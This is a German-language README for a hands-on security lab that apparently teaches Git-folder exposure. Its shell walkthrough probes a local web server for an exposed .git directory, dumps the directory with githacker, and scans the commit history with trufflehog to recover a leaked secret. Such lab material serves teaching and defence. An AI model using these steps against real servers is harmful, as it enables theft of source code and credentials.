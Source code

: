 # Lab: Git Hacking

# Build das Image (im Ordner webapp/)
docker build -t lab/git-hacking .

# Starte den Container (interaktiv mit Shell für Student)
docker run -it lab/git-hacking

# Walkthrough

```shell
# Prüfe der beispielhafte Webserver, der auf localhost:8000 erreichbar ist
curl http://localhost:8000
# /config kann nicht abgerufen werden
curl http://localhost:8000/config
# Prüfe, ob der .git Ordner eventuell verfügbar ist
curl http://localhost:8000/.git/config
# Exploite den Server mit "githacker", um den .git Ordner zu erlangen
githacker --url http://localhost:8000 --output-folder git-hack

# Betrachte die erbeuteten Daten
cd git-hack
ls -la
cd "$(ls)"
# Inspiziere das Git-Repository - githacker hat es bereits ausgecheckt und Dateien rekonstruiert
ls -la
# Verifiziere, dass die gesamte Commit-History verfügbar ist
git log

# Bestätige, dass aktuell keine sensiblen Daten enthalten sind
batcat *
batcat config/*
# Führe trufflehog aus - ein Secret wird in einem vergangenen Commit entdeckt
trufflehog git file://.
```
